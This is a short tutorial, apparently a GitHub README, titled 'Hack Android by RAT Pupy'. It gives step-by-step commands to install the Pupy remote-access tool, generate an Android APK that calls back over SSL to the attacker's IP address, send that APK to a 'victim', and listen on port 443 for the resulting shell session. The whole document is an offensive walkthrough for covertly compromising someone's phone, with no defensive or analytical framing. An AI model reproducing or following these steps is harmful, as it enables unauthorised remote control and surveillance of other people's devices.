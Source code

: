 # HACK ANDROID BY RAT PUPY
HACK ANDROID BY NEW RAT (PUPY SHELL)

First step you need installed pupy shell in this link:
```
https://github.com/Faral-Ghaemi/pupy
```

For hack by pupy you must find your wan ip address. for do this go to google and search "my ip".

you need a open port & you can see this tutorial https://github.com/Faral-Ghaemi/Hack-without-port-forwarding for do that.

so open the terminal in the pupy/pupy and type this command:
```
./pupygen.py -f apk -o test.apk connect --host 192.2.2.2 --transport ssl
note : 192.2.2.2 is my wan ip 
```
and now you can see test.apk in pupy/pupy 

now send rat(test.apk) to victim and wait for him.

so now we created rat and we have to listening this port:
open terminal in pupy/pupy and type: 
```
./pupysh.py -p 443
```
if your victim install the RAT open the session.

## GOOD LUCK (Mohammad Amin Ghaemi)
